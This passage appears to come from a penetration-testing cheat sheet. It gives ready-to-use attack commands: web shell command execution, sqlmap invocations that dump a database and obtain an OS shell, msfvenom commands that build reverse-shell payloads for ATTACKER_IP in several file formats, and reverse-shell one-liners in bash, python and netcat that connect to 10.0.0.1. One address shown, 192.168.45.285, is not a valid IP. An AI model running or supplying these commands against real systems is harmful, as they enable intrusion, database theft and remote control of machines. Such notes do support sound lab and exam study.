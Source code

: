 Now we can exploit it

```
[http://192.168.45.285/tmp/webshell.php?cmd=id](http://192.168.45.285/tmp/webshell.php?cmd=id)  #Command execution
```

**SQLMap - Automated Code execution**

```bash
sqlmap -u [http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1) -p user  #Testing on parameter names "user"
sqlmap -u [http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1) -p user --dump  #Dumping database

#OS Shell
```

* Obtain the Post request from Burp suite and save it to post.txt

```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"  #/var/www/html/tmp is the writable location on web
```

### Exploitation

#### Reverse Shells

#### Msfvenom

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe > shell-x64.exe
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f war > shell.war
msfvenom -p php/reverse_php LHOST=ATTACKER_IP LPORT=PORT -f raw > shell.php
```

#### One Liners

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```python
python -c 'import socket,os,pty;s=socket.socket([socket.AF](http://socket.AF)_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

```bash
nc -e /bin/sh 10.0.0.1 4242
```

```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

